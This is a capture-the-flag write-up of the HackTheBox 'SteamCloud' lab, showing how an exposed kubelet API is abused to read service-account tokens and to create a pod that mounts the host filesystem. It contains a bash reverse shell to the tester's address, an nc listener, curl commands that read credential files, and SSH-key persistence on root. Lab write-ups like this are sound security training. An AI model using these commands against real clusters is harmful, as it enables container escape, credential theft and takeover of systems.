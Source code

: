 ```yaml
---
title: HackTheBox - SteamCloud
aside: true
categories: htb kubernetes
excerpt: | 
   SteamCloud is a easy difficulty Linux machine.

feature_text: |
  ## SteamCloud - Easy
  
feature_image: "https://picsum.photos/2560/600?image=733"
image: "https://picsum.photos/2560/600?image=733"
---
```


### Scanning process
sudo nmap -p- --open -sCV -n -Pn \<ip\> -oN targeted:
``` python 
PORT      STATE SERVICE          VERSION
22/tcp    open  ssh              OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 fc:fb:90:ee:7c:73:a1:d4:bf:87:f8:71:e8:44:c6:3c (RSA)
|   256 46:83:2b:1b:01:db:71:64:6a:3e:27:cb:53:6f:81:a1 (ECDSA)
|_  256 1d:8d:d3:41:f3:ff:a4:37:e8:ac:78:08:89:c2:e3:c5 (ED25519)
|
2379/tcp  open  ssl/etcd-client?
| ssl-cert: Subject: commonName=steamcloud
| Subject Alternative Name: DNS:localhost, DNS:steamcloud, IP Address:10.10.11.133, IP Address:127.0.0.1, IP Address:0:0:0:0:0:0:0:1
|
2380/tcp  open  ssl/etcd-server?
| ssl-cert: Subject: commonName=steamcloud
|
8443/tcp  open  ssl/https-alt
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.0 403 Forbidden
|     Content-Type: application/json
|     {"kind":"Status","apiVersion":"v1","metadata":{},"status":"Failure","message":"forbidden: User "system:anonymous" cannot get path "/nice ports,/Trinity.txt.bak"","reason":"Forbidden",""}
|   HTTPOptions: 
| ssl-cert: Subject: commonName=minikube/organizationName=system:masters
| Subject Alternative Name: DNS:minikubeCA, DNS:control-plane.minikube.internal, DNS:kubernetes.default.svc.cluster.local, DNS:kubernetes.default.svc, DNS:kubernetes.default, DNS:kubernetes, DNS:localhost, IP Address:10.10.11.133, IP Address:10.96.0.1, IP Address:127.0.0.1, IP Address:10.0.0.1
|
10249/tcp open  http             Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
10250/tcp open  ssl/http         Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
10256/tcp open  http             Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
```
This machine hash too many ports open. As you can see in port 8443, there is an API running behind, and the DNS name [Kubernetes](https://book.hacktricks.xyz/cloud-security/pentesting-kubernetes/kubernetes-enumeration) is a clue. This explain too many open ports.

What is Kubernetes?
>Kubernetes is an open source container orchestration platform that automates many of the manual processes involved in deploying, managing, and scaling containerized applications.

We cannot use the usual command `kubectl` to enumerate the Kubernetes API because it requires authentication. Then we need to find a way to [enumerate-from-outside](https://github.com/carlospolop/hacktricks/blob/master/pentesting/pentesting-kubernetes/pentesting-kubernetes-from-the-outside.md). 

Studing Kubernetes platform to understand how does it work, we can find some special directories that have a ServiceAccount (an object managed by Kubernetes that used to provide an identity for processes that run in a pod):
1. /run/secrets/kubernetes.io/serviceaccount
2. /var/run/secrets/kubernetes.io/ServiceAccount
3. /secrets/kubernetes.io/ServiceAccount

All we need is to get access to this directories. Listing namespace, pods and container with: 
``` 
curl -k https://10.10.11.133:10250/pods | jq -r '.items[] | [.metadata.namespace, .metadata.name, [.spec.containers[].name]]'
```
Maybe some of this pods can run a command. You can make a script to probe or simply select one-by-one trying to run a command like:
```
curl -XPOST -k https://10.10.11.133:10250/run/{namespace}/{pod}/{container} \ 
  -d "cmd=cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt /var/run/secrets/kubernetes.io/serviceaccount/token"
```
Perfect! It is all we need. Now you can use kubectl with this authentication files and check whether an action is allowed:
```
kubectl -s https://10.10.11.133:8443  --certificate-authority='ca.crt'  --token='<token.jwt>' auth can-i --list
```
```
Resources                                       Non-Resource URLs                     Resource Names   Verbs
selfsubjectaccessreviews.authorization.k8s.io   []                                    []               [create]
selfsubjectrulesreviews.authorization.k8s.io    []                                    []               [create]
pods                                            []                                    []               [get create list]
                                                [/.well-known/openid-configuration]   []               [get]
                                                [/api/*]                              []               [get]
```
We have permission to create a new pods. 

### Exploit vulnerabilities
And it is dangerous because in creation process we can copy directories in our new pods. And more about, we can edit files in our copied directory and this will be change in the main system... 
Create a new evil.yaml, using `create mypod --image=nginx -o yaml > evil.yaml` as reference. 
``` python 
apiVersion: v1
kind: Pod
metadata:
  name: evil-mayo
  namespace: default
spec:
  containers:
  - name: evil-mayo
    image: nginx:1.14.2
    command: ["/bin/bash"]
    args: ["-c", "/bin/bash -i &> /dev/tcp/10.10.16.3/443 0>&1"]
    volumeMounts:
    - mountPath: /mnt
      name: hostfs 
  volumes:
  - name: hostfs
    hostPath:
      path: /
  automountServiceAccountToken: true
```
1. nc -lnvp 443
2. kubectl -s https://10.10.11.133:8443  --certificate-authority='ca.crt'  --token='' create -f ./evil.yaml

### Get access to the machine
Creating a new pair of key rsa with `ssh-keygen` we can add our id\_rsa.pub to the root/.ssh/authorized\_keys and then get a ssh conexion with our private key.

That's all!
